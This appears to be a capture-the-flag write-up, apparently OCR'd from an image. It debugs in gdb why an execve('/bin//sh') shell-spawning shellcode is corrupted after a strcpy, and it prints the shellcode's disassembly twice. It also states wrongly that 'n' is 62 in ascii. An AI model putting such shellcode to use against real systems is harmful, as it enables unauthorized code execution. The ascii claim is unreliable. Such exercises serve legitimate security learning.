 # Solution

1. First let's check what happens when we make no changes at all to the string, this is done by changing an index to the same thing stored at that index.
for example: sc\[12\] will be set to 'n' which is 62 in ascii.



gdb-peda$ x/11i $ebp-0x1c
   0xffffd4cc:	xor    eax,eax
   0xffffd4ce:	push   eax
   0xffffd4cf:	push   0x68732f2f
   0xffffd4d4:	push   0x69622f
   0xffffd4d9:	test   esp,ebx
   0xffffd4db:	test   DWORD PTR [edi],0x5e080486
   0xffffd4e1:	xchg   DWORD PTR [eax+ecx*1],eax
   0xffffd4e4:	clc
   0xffffd4e5:	aam    0xff
   0xffffd4e7:	dec    DWORD PTR [eax]
   0xffffd4e9:	aad    0xff
gdb-peda$ x/11i 0x804a02c
   0x804a02c <sc>:	xor    eax,eax
   0x804a02e <sc+2>:	push   eax
   0x804a02f <sc+3>:	push   0x68732f2f
   0x804a034 <sc+8>:	push   0x69622f
   0x804a039 <sc+13>:	mov    ebx,esp
   0x804a03b <sc+15>:	push   eax
   0x804a03c <sc+16>:	push   ebx
   0x804a03d <sc+17>:	mov    ecx,esp
   0x804a03f <sc+19>:	mov    al,0xb
   0x804a041 <sc+21>:	int    0x80
   0x804a043 <sc+23>:	add    BYTE PTR [eax],al
gdb-peda$



The shellcode at sc+13 is changed, which leads me to think strcpy malfunctioned at this point.

This is the point where the string is cut, and C is supposed to append the second string. I have tested this and it works. Let's try to modify the string at a different index, and see if us modifying it is what caused it.



The shellcode:


   0x804a02c <sc>:	xor    eax,eax
   0x804a02e <sc+2>:	push   eax
   0x804a02f <sc+3>:	push   0x68732f2f
   0x804a034 <sc+8>:	push   0x69622f
   0x804a039 <sc+13>:	mov    ebx,esp
   0x804a03b <sc+15>:	push   eax
   0x804a03c <sc+16>:	push   ebx
   0x804a03d <sc+17>:	mov    ecx,esp
   0x804a03f <sc+19>:	mov    al,0xb
   0x804a041 <sc+21>:	int    0x80
   0x804a043 <sc+23>:	add    BYTE PTR [eax],al
